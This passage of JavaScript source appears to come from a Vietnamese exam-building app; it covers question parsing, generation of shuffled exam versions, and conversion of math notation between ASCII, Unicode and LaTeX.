    const sections = [];
    let current = null;

    for (const line of lines) {
      const headerMatch = line.trim().match(/^=+\s*(.+?)\s*=+$/);
      if (headerMatch) {
        if (current) sections.push(current);
        current = { title: this._formatTitle(headerMatch[1]), body: '' };
      } else if (current) {
        current.body += line + '\n';
      } else {
        current = { title: 'Cau hoi', body: line + '\n' };
      }
    }
    if (current) sections.push(current);
    return sections;
  }

  _formatTitle(rawTitle) {
    const cleaned = rawTitle.replace(/^PHAN_?\d*_?/i, '').replace(/_/g, ' ').trim();
    if (!cleaned) return rawTitle;
    const mapped = TITLE_MAP[cleaned.toLowerCase()];
    if (mapped) return mapped;
    return cleaned.toLowerCase().replace(/\b\w/g, c => c.toUpperCase());
  }

  _parseQuestionChunk(chunk, sectionIndex, questionIndex) {
    const location = `Phan ${sectionIndex} - Cau hoi ${questionIndex}`;
    const lines = chunk.split(/\r?\n/);

    const fields = {};
    const options = [];
    let currentField = null;

    for (const rawLine of lines) {
      const line = rawLine.trim();
      if (!line) continue;

      const fieldMatch = line.match(FIELD_REGEX);
      const optionMatch = line.match(OPTION_REGEX);

      if (fieldMatch) {
        // Ghi de (khong noi chuoi) khi mot nhan "Field:" xuat hien lai lan
        // thu 2 trong cung 1 [CAU_HOI]: truong hop nay thuong la AI tu sua
        // dap an (vd viet them "Dap_An:"/"Loi_Giai:" lan 2 sau khi da ket
        // luan lai) ma quen tach thanh cau hoi moi - gia tri sau cung moi
        // la dap an dung, khong phai ghep "Dung Sai" gay loi validate.
        currentField = fieldMatch[1].toLowerCase();
        fields[currentField] = fieldMatch[2].trim();
      } else if (optionMatch) {
        options.push({ option_key: optionMatch[1].toUpperCase(), option_text: optionMatch[2].trim() });
        currentField = null;
      } else if (currentField) {
        fields[currentField] += ' ' + line;
      }
    }

    const rawType = (fields['loai'] || '').trim().toUpperCase();
    const questionType = TYPE_MAP[rawType];
    if (!questionType) {
      throw new Error(`[${location}] Truong "Loai" khong hop le hoac bi thieu: "${fields['loai'] || ''}"`);
    }

    const rawDifficulty = (fields['muc_do'] || '').trim();
    const difficulty = DIFFICULTY_MAP[rawDifficulty.toLowerCase()];
    if (!difficulty) {
      throw new Error(`[${location}] Truong "Muc_Do" khong hop le hoac bi thieu: "${rawDifficulty}"`);
    }

    const content = (fields['de_bai'] || '').trim();
    if (!content) {
      throw new Error(`[${location}] Thieu noi dung "De_Bai".`);
    }

    const question = {
      question_type: questionType,
      content: formatMathSymbols(content),
      difficulty_level: difficulty,
      explanation: formatMathSymbols((fields['loi_giai'] || '').trim()) || null,
      correct_answer: null,
      options: [],
      draft_lines_count: 0
    };

    if (questionType === 'MCQ') {
      if (options.length < 2) {
        throw new Error(`[${location}] Cau trac nghiem can it nhat 2 lua chon (A, B, ...).`);
      }
      const correctKey = (fields['dap_an'] || '').trim().toUpperCase();
      if (!options.some(o => o.option_key === correctKey)) {
        throw new Error(`[${location}] "Dap_An" (${correctKey}) khong khop voi bat ky lua chon nao.`);
      }
      question.options = options.map(o => ({ ...o, option_text: formatMathSymbols(o.option_text), is_correct: o.option_key === correctKey }));
      question.correct_answer = correctKey;
    } else if (questionType === 'TRUE_FALSE') {
      const answer = (fields['dap_an'] || '').trim();
      if (!/^(Dung|Sai)$/i.test(answer)) {
        throw new Error(`[${location}] "Dap_An" cua cau Dung/Sai phai la "Dung" hoac "Sai".`);
      }
      question.correct_answer = answer;
    } else if (questionType === 'FILL_BLANK') {
      const answer = (fields['dap_an'] || '').trim();
      if (!answer) {
        throw new Error(`[${location}] Cau dien tu thieu "Dap_An".`);
      }
      question.correct_answer = formatMathSymbols(answer);
    } else if (questionType === 'ESSAY') {
      const draftLines = parseInt(fields['so_dong_nhap'], 10);
      question.draft_lines_count = Number.isFinite(draftLines) && draftLines > 0 ? draftLines : 5;
      question.correct_answer = formatMathSymbols((fields['dap_an'] || '').trim()) || null;
    }

    return question;
  }
}

```

### FILE: backend/parser/examCodeGenerator.js

```javascript
const TYPE_ORDER = ['MCQ', 'TRUE_FALSE', 'FILL_BLANK'];
const DIFFICULTY_ORDER = ['NB', 'TH', 'VD', 'VDC'];

function uid() {
  return (typeof crypto !== 'undefined' && crypto.randomUUID)
    ? crypto.randomUUID()
    : `id-${Date.now()}-${Math.random().toString(16).slice(2)}`;
}

// Xao mang bang Fisher-Yates. Khong sua doi mang goc - tra ve ban sao.
export function fisherYatesShuffle(source) {
  const arr = source.slice();
  for (let i = arr.length - 1; i > 0; i--) {
    const j = Math.floor(Math.random() * (i + 1));
    [arr[i], arr[j]] = [arr[j], arr[i]];
  }
  return arr;
}

/**
 * Chia 1 pool cau hoi (cung 1 loai) thanh q phan cho q ma de.
 * Moi ma de nhan floor(total/q) cau. Phan du (total % q) duoc rai
 * duy nhat 1 lan cho cac ma de duoc chon ngau nhien - vi tong so cau
 * da phan (base*q + remainder) dung bang total nen moi cau nguon chi
 * roi vao dung 1 ma de => khong ma de nao lap cau cua ma de khac
 * (chi lap khi q > total, luc do mot so ma de danh phai nhan 0 cau
 * loai nay vi nguon khong du de chia ma khong lap).
 */
export function allocateForCodes(pool, q) {
  const shuffledPool = fisherYatesShuffle(pool);
  const total = shuffledPool.length;
  const base = Math.floor(total / q);
  const remainder = total % q;

  const codeOrder = fisherYatesShuffle(Array.from({ length: q }, (_, i) => i));
  const remainderCodes = new Set(codeOrder.slice(0, remainder));

  const result = Array.from({ length: q }, () => []);
  let cursor = 0;
  for (let i = 0; i < q; i++) {
    const count = base + (remainderCodes.has(i) ? 1 : 0);
    result[i] = shuffledPool.slice(cursor, cursor + count);
    cursor += count;
  }
  return result;
}

// Xao thu tu cac lua chon A/B/C/D cua 1 cau MCQ, gan lai nhan chu cai
// theo vi tri moi va cap nhat correct_answer theo dung lua chon dung.
// Dung chung cho ca luc sinh de goc (chi xao options, giu nguyen id) lan
// luc nhan ban cho tung ma de (can id moi, xem cloneQuestionForCode).
export function shuffleMCQOptions(question) {
  const shuffledOptions = fisherYatesShuffle(question.options);
  const keys = ['A', 'B', 'C', 'D', 'E', 'F'].slice(0, shuffledOptions.length);
  const newOptions = shuffledOptions.map((opt, i) => ({
    option_key: keys[i],
    option_text: opt.option_text,
    is_correct: opt.is_correct
  }));
  const correctOption = newOptions.find(o => o.is_correct);
  return {
    ...question,
    options: newOptions,
    correct_answer: correctOption ? correctOption.option_key : question.correct_answer
  };
}

// Xao vi tri dap an cho toan bo cau MCQ trong 1 bo blocks de goc, tranh
// thien lech (vi du dap an dung luon roi vao vi tri A khi noi dung nguon -
// AI sinh hoac nguoi nhap - co thoi quen dat dap an dung dau tien). Sua
// truc tiep tren blocks dau vao, khong tao ban sao.
export function shuffleAllMCQOptions(blocks) {
  blocks.forEach(block => {
    block.questions = block.questions.map(q => (
      q.question_type === 'MCQ' ? { ...shuffleMCQOptions(q), id: q.id } : q
    ));
  });
  return blocks;
}

function cloneQuestionForCode(question) {
  if (question.question_type === 'MCQ') return { ...shuffleMCQOptions(question), id: uid() };
  return { ...question, id: uid(), options: (question.options || []).map(o => ({ ...o })) };
}

function groupKey(type, difficulty) { return `${type}|${difficulty}`; }

// Gom cau hoi nguon theo tung cap (loai, muc_do) rieng biet - vd MCQ|NB,
// MCQ|TH, TRUE_FALSE|VD... Moi nhom se duoc chia deu rieng cho q ma de,
// dam bao ti le muc do kho trong tung loai cau hoi la dong deu giua cac
// ma de, thay vi chi dong deu tong so cau moi loai.
function groupQuestionsByTypeAndDifficulty(blocks) {
  const groups = new Map();
  blocks.forEach(b => b.questions.forEach(q => {
    const key = groupKey(q.question_type, q.difficulty_level);
    if (!groups.has(key)) groups.set(key, []);
    groups.get(key).push(q);
  }));
  return groups;
}

// Danh sach muc do co that trong nguon cho 1 loai cau hoi, uu tien sap
// xep theo DIFFICULTY_ORDER (de -> kho) - muc do la nao vao them (khong
// thuoc DIFFICULTY_ORDER, hiem gap) van duoc giu, xep sau cung de khong
// mat du lieu.
function difficultiesForType(groups, type) {
  const present = new Set();
  groups.forEach((_, key) => {
    const [t, d] = key.split('|');
    if (t === type) present.add(d);
  });
  const known = DIFFICULTY_ORDER.filter(d => present.has(d));
  const unknown = [...present].filter(d => !DIFFICULTY_ORDER.includes(d));
  return [...known, ...unknown];
}

/**
 * Sinh q phien ban (ma de) tu 1 bo blocks cau hoi nguon.
 * - Gop cau hoi nguon theo tung cap (loai, muc_do), moi cap duoc xao va
 *   chia rieng bang allocateForCodes => ti le muc do kho (Nhan_Biet/
 *   Thong_Hieu/Van_Dung/Van_Dung_Cao) trong tung loai cau hoi la dong deu
 *   giua cac ma de, khong bi lech (vd 1 ma de toan cau de, ma khac toan
 *   cau kho).
 * - Moi ma de: khoi 1 "Phan I. Trac nghiem" gom MCQ + TRUE_FALSE +
 *   FILL_BLANK (theo thu tu do, trong moi loai sap theo muc do tu de den
 *   kho), khoi 2 "Phan II. Tu luan" gom ESSAY.
 * - MCQ duoc xao lai thu tu dap an cho tung ma de.
 *
 * @param {Array} blocks - blocks cau hoi nguon (dang state.blocks trong FE)
 * @param {number} q - so ma de can tao (>= 2)
 * @param {{prefix?: string, start?: number}} options
 * @returns {Array<{code: string, blocks: Array, stats: Object}>}
 */
export function generateExamCodes(blocks, q, options = {}) {
  const count = Math.max(2, Math.floor(q) || 0);
  const prefix = (options.prefix || 'Đề').trim() || 'Đề';
  const start = Number.isFinite(options.start) ? options.start : 101;

  const groups = groupQuestionsByTypeAndDifficulty(blocks);
  if (groups.size === 0) {
    throw new Error('Khong co cau hoi nao trong de goc de tron ma de.');
  }

  const ALL_TYPES = [...TYPE_ORDER, 'ESSAY'];
  const difficultyByType = {};
  ALL_TYPES.forEach(type => { difficultyByType[type] = difficultiesForType(groups, type); });

  const allocations = new Map();
  groups.forEach((pool, key) => { allocations.set(key, allocateForCodes(pool, count)); });

  const versions = [];
  for (let i = 0; i < count; i++) {
    const objective = [];
    TYPE_ORDER.forEach(type => {
      difficultyByType[type].forEach(diff => {
        const alloc = allocations.get(groupKey(type, diff));
        if (alloc) objective.push(...alloc[i].map(cloneQuestionForCode));
      });
    });
    const essay = [];
    difficultyByType.ESSAY.forEach(diff => {
      const alloc = allocations.get(groupKey('ESSAY', diff));
      if (alloc) essay.push(...alloc[i].map(cloneQuestionForCode));
    });

    const versionBlocks = [];
    if (objective.length) {
      versionBlocks.push({ id: uid(), block_type: 'MULTIPLE_CHOICE', block_title: 'Phần I. Trắc nghiệm', questions: objective });
    }
    if (essay.length) {
      versionBlocks.push({ id: uid(), block_type: 'ESSAY', block_title: 'Phần II. Tự luận', questions: essay });
    }

    const stats = { MCQ: 0, TRUE_FALSE: 0, FILL_BLANK: 0, ESSAY: 0 };
    groups.forEach((_, key) => {
      const [type] = key.split('|');
      stats[type] += allocations.get(key)[i].length;
    });

    versions.push({ code: `${prefix} ${start + i}`, blocks: versionBlocks, stats });
  }

  return versions;
}

```

### FILE: backend/parser/index.js

```javascript
export { IQuestionParser } from './IQuestionParser.js';
export { TextPromptParser } from './TextPromptParser.js';
export { FileUploadParser } from './FileUploadParser.js';

```

### FILE: backend/parser/mathFormat.js

```javascript
import { promoteStructuralMath } from './mathToLatex.js';

const SUPERSCRIPT_DIGITS = { 0: '⁰', 1: '¹', 2: '²', 3: '³', 4: '⁴', 5: '⁵', 6: '⁶', 7: '⁷', 8: '⁸', 9: '⁹' };
const GREEK_LETTERS = { alpha: 'α', beta: 'β', gamma: 'γ', delta: 'δ', theta: 'θ', pi: 'π', phi: 'φ', lambda: 'λ', mu: 'μ', omega: 'ω' };
const GREEK_CHARS = Object.values(GREEK_LETTERS).join('');
const TRIG_NAMES = 'arcsin|arccos|arctan|sin|cos|tan|cot|sec|csc|log|ln';
const toSuperscript = digits => digits.split('').map(d => SUPERSCRIPT_DIGITS[d]).join('');
const wrapIfExpression = s => (/[+-]/.test(s) ? `(${s})` : s);
// Noi dung duoi dau can: so nguyen thuan tuy (vi du "16", "37") khong can
// ngoac vi khong co gi gay nham lan khi doc lien "√16". Bieu thuc phuc tap
// hon (co chu, phep toan, can long nhau...) thi bat buoc boc trong ngoac
// don "√(...)" - dung form chuan toan hoc, khong dung dau combining overline
// (U+0305) ghep tung ky tu vi ky tu do hien thi be, dinh lien vao chu so o
// nhieu font/trinh duyet, gay loi "gach ngang dinh vao so".
const wrapSqrtContent = s => (/^[0-9]+$/.test(s) ? s : `(${s})`);
// Can bac n (\sqrt[3]{x}, \sqrt[4]{x}...): dung ky tu Unicode dung san cho
// bac 3/4 (∛/∜ - khong phai combining nen an toan nhu √), con bac khac thi
// ghep chu so tren truoc dau √ (vd "⁵√") theo quy uoc toan hoc pho bien.
const ROOT_INDEX_SYMBOLS = { 2: '√', 3: '∛', 4: '∜' };
const rootSymbolFor = n => ROOT_INDEX_SYMBOLS[n] || toSuperscript(n) + '√';

// Cac cap thay the theo dung thu tu: chuoi dai/dac hieu hon (hoac phu thuoc
// vao ket qua cua buoc truoc) phai duoc xu ly truoc. Cac lenh LaTeX
// (\frac, \sqrt, \widehat...) duoc go trước de khi \frac{...}{...} bat noi
// dung ben trong dau ngoac nhon thi noi dung do da la Unicode sach (vi du
// \frac{\sin \alpha}{\cos \alpha} can \sin/\alpha duoc doi truoc).
const SYMBOL_REPLACEMENTS = [
  // --- LaTeX: cac lenh khong can noi dung (bo qua) ---
  [/\\left/g, ''],
  [/\\right/g, ''],

  // --- LaTeX: chu cai Hy Lap ---
  [/\\(alpha|beta|gamma|delta|theta|pi|phi|lambda|mu|omega)\b/g, (_, w) => GREEK_LETTERS[w]],

  // --- LaTeX: ham luong giac / log (bo dau \, giu ten ham) ---
  [/\\(arcsin|arccos|arctan|sin|cos|tan|cot|sec|csc|log|ln|lim|min|max|exp)\b/g, '$1'],

  // --- Nhan ngam (implicit multiplication): trong LaTeX "\alpha\cos" hop le
  // vi dau \ phan tach 2 lenh, nhung sau khi bo dau \ o tren thi 2 token bi
  // dinh lien thanh "αcos" khong con ranh gioi. Chen dau "." (chuan sach
  // giao khoa VN, vi du "AH = AB.sin B") vao giua 1 ky tu Hy Lap/chu so/
  // dau ")" va ten ham luong giac/log ngay sau no de de doc hon. ---
  [new RegExp(`([${GREEK_CHARS}0-9)])(${TRIG_NAMES})\\b`, 'g'), '$1.$2'],

  // --- LaTeX: phep nhan/chia ---
  [/\\cdot\b/g, '×'],
  [/\\times\b/g, '×'],
  [/\\div\b/g, '÷'],
  [/\\pm\b/g, '±'],
  [/\\mp\b/g, '∓'],

  // --- LaTeX: quan he so sanh / suy ra / tap hop (dang lenh, ung voi cac
  // dang ASCII => <= >= != da co san ben duoi) ---
  [/\\ge\b/g, '≥'],
  [/\\le\b/g, '≤'],
  [/\\ne\b/g, '≠'],
  [/\\Leftrightarrow\b/g, '⇔'],
  [/\\Rightarrow\b/g, '⇒'],
  [/\\Leftarrow\b/g, '⇐'],
  [/\\to\b/g, '→'],
  [/\\in\b/g, '∈'],
  [/\\notin\b/g, '∉'],

  // --- LaTeX: \mathbb{X} -> chu Unicode "chu dam bang" cho cac tap so quen
  // thuoc (R, N, Z, Q, C); chu khac thi giu nguyen chu ben trong (nhu \text{}) ---
  [/\\mathbb\{([^{}]*)\}/g, (_, x) => ({ R: 'ℝ', N: 'ℕ', Z: 'ℤ', Q: 'ℚ', C: 'ℂ' }[x] || x)],

  // --- LaTeX: do (^\circ hoac ^{\circ} hoac \circ don le) ---
  [/\^\{?\\circ\}?/g, '°'],
  [/\\circ\b/g, '°'],

  // --- LaTeX: \text{...} chi giu lai noi dung ben trong ---
  [/\\text\{([^{}]*)\}/g, '$1'],

  // --- LaTeX: \widehat{X} -> X voi dau mu ket hop (vi du "B" -> "B̂") ---
  [/\\widehat\{([^{}]*)\}/g, (_, x) => x + '̂'],

  // --- LaTeX: can bac n (\sqrt[3]{x}, \sqrt[5]{x}...) - phai xu ly truoc
  // \sqrt{...} thuong vi cung bat dau bang "\sqrt" ---
  [/\\sqrt\[([0-9]+)\]\{([^{}]*)\}/g, (_, n, x) => rootSymbolFor(n) + wrapSqrtContent(x)],

  // --- LaTeX: can bac hai (√ + so nguyen thuan, hoac √(...) neu la bieu thuc) ---
  [/\\sqrt\{([^{}]*)\}/g, (_, x) => '√' + wrapSqrtContent(x)],

  // --- LaTeX: phan so \frac{tu}{mau} -> tu/mau (ngoac lai neu co +/-) ---
  [/\\frac\{([^{}]*)\}\{([^{}]*)\}/g, (_, num, den) => `${wrapIfExpression(num)}/${wrapIfExpression(den)}`],

  // --- LaTeX: bo dau $ bao quanh cong thuc (khong render LaTeX that) ---
  [/\$/g, ''],

  // --- ASCII go tay: chuoi dai truoc chuoi ngan (<=> truoc <= va =>) ---
  [/<=>/g, '⇔'],
  [/<->/g, '↔'],
  [/=>/g, '⇒'],
  [/->/g, '→'],
  [/<=/g, '≤'],
  [/>=/g, '≥'],
  [/!=/g, '≠'],
  [/\+-/g, '±'],
  [/sqrt\(/gi, '√('],
  [/\b(mm|cm|dm|km|m)([0-9])\b/gi, (_, unit, digit) => unit + SUPERSCRIPT_DIGITS[digit]],
  [/\^([0-9]+)/g, (_, digits) => toSuperscript(digits)],
  [/([a-zA-Z0-9)])\s*\*\s*([a-zA-Z0-9(])/g, '$1 × $2']
];

function applyReplacements(text) {
  // Chay lap den khi ket qua khong doi them (fixed point): can bac hai long
  // nhau (\sqrt{...\sqrt{...}...}) can nhieu luot vi 1 luot chi giai duoc
  // lop can trong cung, lop can ngoai chi "sach" (het dau ngoac nhon) sau
  // khi lop trong da duoc thay the o luot truoc do.
  let result = text;
  for (let i = 0; i < 5; i++) {
    const next = SYMBOL_REPLACEMENTS.reduce((acc, [pattern, replacement]) => acc.replace(pattern, replacement), result);
    if (next === result) return next;
    result = next;
  }
  return result;
}

/**
 * Doi TOAN BO ky hieu toan hoc (ke ca ben trong $...$) sang ky tu Unicode
 * phang, dung cho noi dung KHONG the render LaTeX that (vd file Word xuat
 * ra bang thu vien "docx" - chi la text tinh, khong co KaTeX). Day chinh la
 * hanh vi day du cua formatMathSymbols() truoc khi co KaTeX; gach ngang cua
 * can/phan so o day chi la ky tu/dau ngoac, khong phai net ve that.
 */
export function latexToPlainText(text) {
  if (typeof text !== 'string' || !text) return text;
  return applyReplacements(text);
}

const MATH_SPAN_RE = /\$[^$]*\$/g;

/**
 * Doi cac ky hieu toan hoc go tay bang ASCII (>=, <=>, ^2, sqrt(...), m3...)
 * ben NGOAI dau $...$ sang Unicode, con phan LaTeX BEN TRONG $...$ thi GIU
 * NGUYEN VEN (ke ca dau $) de tang hien thi (renderMathInline trong
 * script.js) dua vao KaTeX ve that - KaTeX can cu phap LaTeX goc (\sqrt,
 * \frac long nhau tuy y...) chu khong phai chuoi Unicode da bi "lam phang"
 * mat het cau truc long nhau (day chinh la nguyen nhan cac loi can/phan so
 * ghep sai truoc day: 2 buoc doan mau bang regex giam chan nhau tren cung 1
 * chuoi phang). Neu can ban Unicode/plain-text day du (vd xuat file Word),
 * dung latexToPlainText() thay vi ham nay.
 */
export function formatMathSymbols(text) {
  if (typeof text !== 'string' || !text) return text;

  // Buoc 1: boc moi cau truc toan 2 chieu (can, phan so, can bac n...) nam
  // ngoai $...$ thanh $...$ LaTeX chuan (xem mathToLatex.js). Sau buoc nay
  // ky hieu can/phan so KHONG con o dang Unicode "lam phang" o vung van xuoi
  // - chung da la LaTeX trong $...$ de KaTeX/JLaTeXMath ve that.
  const promoted = promoteStructuralMath(text);

  // Buoc 2: lam dep cac ky hieu 1 HANG con lai (^2 -> ², <= -> ≤, a*b ->
  // a×b, \alpha -> α...) - CHI o vung ngoai $...$; phan trong $...$ giu
  // nguyen ven cho KaTeX.
  let result = '';
  let lastIndex = 0;
  let match;
  MATH_SPAN_RE.lastIndex = 0;
  while ((match = MATH_SPAN_RE.exec(promoted)) !== null) {
    if (match.index > lastIndex) result += applyReplacements(promoted.slice(lastIndex, match.index));
    result += match[0];
    lastIndex = MATH_SPAN_RE.lastIndex;
  }
  result += applyReplacements(promoted.slice(lastIndex));
  return result;
}

```

### FILE: backend/parser/mathFraction.js

```javascript
// Vai tu noi (va, hoac...) hay bi nham thanh phan so vi cung co dang
// "chu/chu" (vi du "va/hoac"). Danh sach nay chi la giai phap thuc dung,
// khong bao phu het moi truong hop, nhung chan duoc truong hop pho bien
// nhat trong van ban de thi tieng Viet.
const FRACTION_BLOCKLIST = new Set([
  'va', 'hoac', 'hay', 'la', 'khong', 'co', 'du', 'neu', 'thi', 'cung', 'nhung', 'nen', 'do', 'vi', 'ma', 'nhu', 'tuy'
]);

function stripDiacritics(s) {
  return s.normalize('NFD').replace(/\p{M}/gu, '').toLowerCase();
}

// Don vi do luong vat ly (km/h, m/s, kg/m3...) co dang giong het phan so
// "tu/mau" ve mat cu phap (chu/chu) nen bi regex phan so nhan nham. Chi
// chan khi CA hai ve deu la don vi da biet - de khong lam hong phan so bien
// toan hoc hop le dang "chu/chu" (vi du "m/n" - phan so toi gian kinh dien).
const UNIT_TOKENS = new Set([
  'km', 'hm', 'dam', 'm', 'dm', 'cm', 'mm',
  'kg', 'hg', 'dag', 'g', 'dg', 'cg', 'mg', 't',
  'kl', 'hl', 'dal', 'l', 'dl', 'cl', 'ml',
  'h', 's', 'ph', 'gio', 'phut', 'giay',
  'm2', 'cm2', 'mm2', 'km2', 'dm2', 'ha',
  'm3', 'cm3', 'mm3', 'km3', 'dm3',
  'mol', 'w', 'j', 'pa', 'v', 'a', 'hz', 'ohm'
]);

function normalizeUnitToken(s) {
  return stripDiacritics(s).replace(/[²]/g, '2').replace(/[³]/g, '3');
}

function isUnitPair(rawNum, rawDen) {
  return UNIT_TOKENS.has(normalizeUnitToken(rawNum)) && UNIT_TOKENS.has(normalizeUnitToken(rawDen));
}

// Mot "tu thuong" toan chu cai thuong, tu 3 ky tu tro len (vi du "hỏi",
// "trả") nhieu kha nang la van xuoi tieng Viet chu khong phai ten bien
// hinh hoc (ten bien hinh hoc thuong viet HOA nhu AC, BC, AH).
function isLikelyProseWord(s) {
  return /^\p{Ll}+$/u.test(s) && s.length >= 3;
}

// Dung boi mathToLatex.js khi quyet dinh co boc "a/b" thanh $\frac{a}{b}$
// LaTeX hay khong: chan tu noi tieng Viet ("va/hoac"), cap don vi do luong
// ("km/h"), tu xuoi thuong dai (khong phai ten bien hinh hoc).
export function isLikelyFraction(rawNum, rawDen) {
  const num = rawNum.trim();
  const den = rawDen.trim();
  if (!num || !den) return false;
  if (FRACTION_BLOCKLIST.has(stripDiacritics(num)) || FRACTION_BLOCKLIST.has(stripDiacritics(den))) return false;
  if (isLikelyProseWord(num) || isLikelyProseWord(den)) return false;
  if (isUnitPair(num, den)) return false;
  return true;
}

```

### FILE: backend/parser/mathRadical.js

```javascript
// Tim vi tri dau ")" khop voi dau "(" tai openIndex, co tinh long nhau
// (vi du can cua mot binh phuong nhu "√((√3+1)²)" co 2 lop ngoac). Dung boi
// mathToLatex.js khi boc "sqrt(...)" / "√(...)" thanh $...$ LaTeX.
export function findMatchingParen(text, openIndex) {
  let depth = 0;
  for (let i = openIndex; i < text.length; i++) {
    if (text[i] === '(') depth++;
    else if (text[i] === ')') {
      depth--;
      if (depth === 0) return i;
    }
  }
  return -1;
}

```

### FILE: backend/parser/mathToLatex.js

```javascript
// "Nang cap" moi cau truc toan 2 CHIEU (can, phan so, can bac n, luy thua
// chong...) nam NGOAI $...$ thanh cong thuc LaTeX $...$ chuan, de KaTeX
// (web) / JLaTeXMath (Android) ve THAT - moc can co net gach ngang
// (vinculum) keo het toan hang, phan so co gach ngang that. Ky hieu 1 hang
// (x^2, <=, ×, do, chu Hy Lap) GIU NGUYEN dang ASCII/Unicode -
// formatMathSymbols() lo phan lam dep do sau.
//
// Ham chinh: promoteStructuralMath(text) - IDEMPOTENT (chay lai khong doi
// them), coi moi cum $...$ / $$...$$ co san la khoi kin (khong dung vao).
//
// Ban port Kotlin: "Exam builder for adr/app/.../math/MathPromote.kt"
// (MathConvert.promoteStructuralMath) - giu 2 ben dong bo tung buoc.

import { findMatchingParen } from './mathRadical.js';
import { isLikelyFraction } from './mathFraction.js';

const SUP_TO_DIGIT = { '⁰': '0', '¹': '1', '²': '2', '³': '3', '⁴': '4', '⁵': '5', '⁶': '6', '⁷': '7', '⁸': '8', '⁹': '9' };

// ---------------------------------------------------------------------------
// Tien ich chung
// ---------------------------------------------------------------------------

// Dau "}" khop voi dau "{" tai openIndex (co tinh long nhau).
function matchBrace(s, openIndex) {
  let depth = 0;
  for (let i = openIndex; i < s.length; i++) {
    if (s[i] === '{') depth++;
    else if (s[i] === '}') {
      depth--;
      if (depth === 0) return i;
    }
  }
  return -1;
}

// Bo dung 1 lop $...$ bao ngoai (neu co) va 1 lop (...) bao tron ngoai.
function unwrap(term) {
  let s = String(term).trim();
  const dollar = /^\$([\s\S]*)\$$/.exec(s);
  if (dollar) s = dollar[1].trim();
  if (s.startsWith('(') && findMatchingParen(s, 0) === s.length - 1) s = s.slice(1, -1).trim();
  return s;
}

// Chuoi "tho" (bo $ va ngoac) de dua vao isLikelyFraction.
function plainOf(term) {
  return unwrap(term);
}

// ---------------------------------------------------------------------------
// bareToLatex: doi 1 bieu thuc toan tho (KHONG con $) sang than LaTeX -
// dung cho noi dung ben trong \sqrt{...} va 2 ve cua \frac{...}{...}.
// ---------------------------------------------------------------------------

function replaceSqrtCalls(s) {
  const m = /\\?sqrt\s*\(/i.exec(s);
  if (!m) return s;
  const open = s.indexOf('(', m.index);
  const close = findMatchingParen(s, open);
  if (close < 0) {
    const cut = m.index + m[0].length;
    return s.slice(0, cut) + replaceSqrtCalls(s.slice(cut));
  }
  const inner = bareToLatex(s.slice(open + 1, close));
  return s.slice(0, m.index) + `\\sqrt{${inner}}` + replaceSqrtCalls(s.slice(close + 1));
}

const RADICAL_RE = /([⁰¹²³⁴⁵⁶⁷⁸⁹]*)([√∛∜])/;

function replaceUnicodeRadicals(s) {
  const m = RADICAL_RE.exec(s);
  if (!m) return s;
  const [full, sup, sym] = m;
  const after = m.index + full.length;
  let index = sym === '∛' ? '3' : sym === '∜' ? '4' : null;
  if (sup) index = [...sup].map(c => SUP_TO_DIGIT[c]).join('');

  let inner = null;
  let end = after;
  if (s[after] === '(') {
    const close = findMatchingParen(s, after);
    if (close >= 0) { inner = bareToLatex(s.slice(after + 1, close)); end = close + 1; }
  } else {
    const dm = /^([0-9]+|[A-Za-z])/.exec(s.slice(after));
    if (dm) { inner = bareToLatex(dm[1]); end = after + dm[1].length; }
  }
  if (inner === null) {
    // Dau can don le khong co toan hang - giu nguyen ky tu, di tiep.
    return s.slice(0, after) + replaceUnicodeRadicals(s.slice(after));
  }
  const body = `\\sqrt${index ? `[${index}]` : ''}{${inner}}`;
  return s.slice(0, m.index) + body + replaceUnicodeRadicals(s.slice(end));
}

// ² ³ ... -> ^{2} ; ^12 -> ^{12} ; ^x -> ^{x} ; ^{...} giu nguyen.
function liftSuperscripts(s) {
  s = s.replace(/[⁰¹²³⁴⁵⁶⁷⁸⁹]+/g, run => `^{${[...run].map(c => SUP_TO_DIGIT[c]).join('')}}`);
  s = s.replace(/\^(?!\{)([0-9]+|[A-Za-z])/g, '^{$1}');
  return s;
}

function bareToLatex(expr, keepOuterParens = false) {
  let s = String(expr).trim();
  const dollar = /^\$([\s\S]*)\$$/.exec(s);
  if (dollar) s = dollar[1].trim();
  // Ngoac don giao vien go quanh 1 ve phan so ("(2*√3)/(...)") mang y nghia
  // gom nhom -> giu nguyen trong LaTeX. Chi bo ngoac khi KHONG phai ve phan
  // so (keepOuterParens=false) va ngoac boc tron ca bieu thuc.
  if (!keepOuterParens && s.startsWith('(') && findMatchingParen(s, 0) === s.length - 1) {
    s = s.slice(1, -1).trim();
  }
  if (!s) return '';
  // Ket qua LUON di vao trong 1 cum $...$ -> moi dau $ con sot lai (delimiter
  // cua cac cum con da duoc gop) phai bi bo, neu khong se sinh ra "$$" hong.
  s = s.replace(/\$/g, '');
  if (!s.trim()) return '';
  s = replaceSqrtCalls(s);
  s = replaceUnicodeRadicals(s);
  s = convertInnerFractions(s);
  s = liftSuperscripts(s);
  s = s
    .replace(/\s*\*\s*/g, ' \\times ')
    .replace(/×/g, ' \\times ').replace(/÷/g, ' \\div ').replace(/·/g, ' \\cdot ')
    .replace(/±/g, ' \\pm ').replace(/∓/g, ' \\mp ')
    .replace(/≤/g, ' \\le ').replace(/≥/g, ' \\ge ').replace(/≠/g, ' \\ne ');
  return s.replace(/\s{2,}/g, ' ').trim();
}

// Phan so ben TRONG mot bieu thuc da la LaTeX body (khong boc $, tra ve
// \frac{...}{...}). Chi bat dang "gon / gon" khong khoang trang.
const INNER_TERM = String.raw`\([^()]*\)|\\sqrt(?:\[[0-9]+\])?\{[^{}]*\}|[0-9A-Za-z.^{}]+`;
function convertInnerFractions(s) {
  const re = new RegExp(`(${INNER_TERM})\\/(${INNER_TERM})`);
  let prev = null;
  while (prev !== s) {
    prev = s;
    s = s.replace(re, (full, a, b) => {
      if (!isLikelyFraction(unwrap(a), unwrap(b))) return full;
      return `\\frac{${bareToLatex(a)}}{${bareToLatex(b)}}`;
    });
  }
  return s;
}

// ---------------------------------------------------------------------------
// promoteStructuralMath: boc cau truc thanh $...$
// ---------------------------------------------------------------------------

const DOLLAR_SPAN = /\$\$[^$]*\$\$|\$[^$]+\$/g;

function splitProtected(text) {
  const parts = [];
  let last = 0;
  DOLLAR_SPAN.lastIndex = 0;
  let m;
  while ((m = DOLLAR_SPAN.exec(text)) !== null) {
    if (m.index > last) parts.push({ math: false, value: text.slice(last, m.index) });
    parts.push({ math: true, value: m[0] });
    last = DOLLAR_SPAN.lastIndex;
  }
  if (last < text.length) parts.push({ math: false, value: text.slice(last) });
  return parts;
}

